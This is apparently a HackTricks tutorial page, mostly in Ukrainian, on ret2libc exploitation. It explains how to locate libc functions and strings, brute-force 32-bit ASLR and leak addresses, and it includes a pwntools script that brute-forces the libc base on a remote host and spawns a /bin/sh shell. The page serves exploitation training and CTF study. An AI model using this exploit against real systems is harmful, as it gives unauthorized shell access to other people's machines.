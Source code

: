 # Ret2lib

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Основна інформація**

Суть **Ret2Libc** полягає в перенаправленні потоку виконання вразливої програми на функцію в загальній бібліотеці (наприклад, **system**, **execve**, **strcpy**) замість виконання shellcode, наданого атакуючим, в стеку. Атакуючий створює payload, який модифікує адресу повернення в стеці, щоб вказати на потрібну функцію бібліотеки, одночасно забезпечуючи правильну настройку будь-яких необхідних аргументів відповідно до конвенції виклику.

### **Приклад кроків (спрощено)**

* Отримати адресу функції для виклику (наприклад, system) та команду для виклику (наприклад, /bin/sh)
* Згенерувати ROP-ланцюг для передачі першого аргументу, що вказує на рядок команди, та потоку виконання до функції

## Знаходження адрес

* Припустимо, що `libc`, яка використовується, є тією, що з поточної машини, ви можете знайти, де вона буде завантажена в пам'ять за допомогою:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Якщо ви хочете перевірити, чи змінює ASLR адресу libc, ви можете зробити:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Знаючи використовувану libc, також можливо знайти зсув до функції `system` за допомогою:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Знаючи використовувану libc, також можливо знайти зсув до рядка `/bin/sh` функції за допомогою:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Використання gdb-peda / GEF

Знаючи використовувану libc, також можливо використовувати Peda або GEF, щоб отримати адреси функції **system**, функції **exit** та рядка **`/bin/sh`** :
```
p system
p exit
find "/bin/sh"
```
### Використання /proc/\<PID>/maps

Якщо процес створює **дочірні** процеси щоразу, коли ви з ним спілкуєтеся (мережевий сервер), спробуйте **прочитати** цей файл (можливо, вам потрібно буде бути root).

Тут ви можете знайти **точно, де завантажено libc** всередині процесу і **де воно буде завантажено** для кожного дочірнього процесу.

![](<../../../../.gitbook/assets/image (95).png>)

У цьому випадку воно завантажено в **0xb75dc000** (Це буде базова адреса libc)

## Невідома libc

Можливо, ви **не знаєте, яку libc завантажує бінарник** (оскільки вона може бути розташована на сервері, до якого у вас немає доступу). У такому випадку ви можете зловживати вразливістю, щоб **викрити деякі адреси та дізнатися, яка бібліотека libc** використовується:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

І ви можете знайти шаблон pwntools для цього в:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Обхід ASLR на 32 бітах

Ці атаки методом перебору **корисні лише для 32-бітних систем**.

* Якщо експлойт локальний, ви можете спробувати методом перебору знайти базову адресу libc (корисно для 32-бітних систем):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Якщо ви атакуєте віддалений сервер, ви можете спробувати **перебрати адресу функції `libc` `usleep`**, передаючи в якості аргументу 10 (наприклад). Якщо в якийсь момент **сервер відповідає на 10 секунд довше**, ви знайшли адресу цієї функції.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Code Example

У цьому прикладі перебір ASLR інтегровано в код, а вразливий бінарний файл знаходиться на віддаленому сервері:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Code Example

Check the example from:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (or puts)

Це дозволяє **витягувати інформацію з процесу** шляхом виклику `printf`/`puts` з деякими специфічними даними, розміщеними як аргумент.

## Ret2printf

Це в основному означає зловживання **Ret2lib для перетворення його на вразливість форматних рядків `printf`** шляхом використання `ret2lib` для виклику printf з значеннями для експлуатації (звучить безглуздо, але можливо):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Other Examples & references

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, надано витік адреси функції в libc, використовуючи один гаджет
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 біти, ASLR увімкнено, але без PIE, перший крок - заповнити переповнення до байта 0x00 канарки, щоб потім викликати puts і витягнути його. З канаркою створюється ROP гаджет для виклику puts, щоб витягнути адресу puts з GOT, а потім ROP гаджет для виклику `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 біти, ASLR увімкнено, без канарки, переповнення стеку в main з дочірньої функції. ROP гаджет для виклику puts, щоб витягнути адресу puts з GOT, а потім виклик одного гаджета.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 біти, без pie, без канарки, без relro, nx. Використовує функцію write для витоку адреси write (libc) і викликає один гаджет.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
